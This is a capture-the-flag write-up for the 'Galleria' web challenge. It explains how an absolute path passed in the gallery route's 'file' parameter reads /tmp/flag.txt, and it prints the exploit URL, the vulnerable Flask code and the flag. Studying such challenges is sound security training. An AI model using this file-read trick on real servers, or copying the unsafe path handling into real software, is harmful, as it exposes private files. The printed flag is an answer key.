 # Galleria
## Website Link
https://galleria.chal.nbctf.com/

## Solution
   - The `gallery` function is mapped to the '/gallery' URL and can handle both GET requests with or without a 'file' query parameter.
   - If a 'file' query parameter is provided, the function checks if the file is an allowed path and, if so, sends the file to be downloaded.
   - If no 'file' parameter is provided, it lists all files in the upload folder and displays them using the 'gallery.html' template.
```python
@app.route('/gallery')
def gallery():
    if request.args.get('file'):
        filename = os.path.join('uploads', request.args.get('file'))
        if not check_file_path(filename):
            return redirect(url_for('gallery'))

        return send_file(filename)

    image_files = [f for f in os.listdir(
        app.config['UPLOAD_FOLDER'])]
    return render_template('gallery.html', images=image_files)
```
From DockerFile, we can find the path to the flag.txt
```
COPY flag.txt /tmp/flag.txt
```
So, we can change file parameter to ```/tmp/flag.txt``` to read the flag content.
```
https://galleria.chal.nbctf.com/gallery?file=/tmp/flag.txt
```

## Flag
The flag for this challenge is ```nbctf{w0nd3rh0000yyYYyYyyYyyyYyYYYyy!}```
